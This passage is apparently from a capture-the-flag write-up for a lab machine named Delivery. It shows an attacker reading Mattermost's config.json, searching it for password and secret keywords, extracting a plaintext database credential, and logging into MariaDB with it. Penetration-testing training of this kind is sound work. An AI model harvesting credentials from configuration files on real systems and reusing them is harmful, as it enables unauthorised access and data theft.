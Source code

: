 ```bash
maildeliverer@Delivery:~$ vi /opt/mattermost/config/config.json
```

Find for keywords : `password`, `pass`, `paswd`, `user`, `secret`

> > [extrakto](https://github.com/laktak/extrakto) is a **very useful** tmux plugin to find words using [fuzzy finder](https://github.com/junegunn/fzf)
{: .prompt-info }

![](/assets/obsidian/d5a3f5dcbc86e570098601a4b2b7c722.png)

```bash
"DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
```


### Enumerate mysql database

Login with **mysql** (It needs to specify username and password in a weird syntax, to avoid the entering password interactively)

```bash
maildeliverer@Delivery:~# mysql -u mmuser -pCrack_The_MM_Admin_PW
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 264
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

Start enum
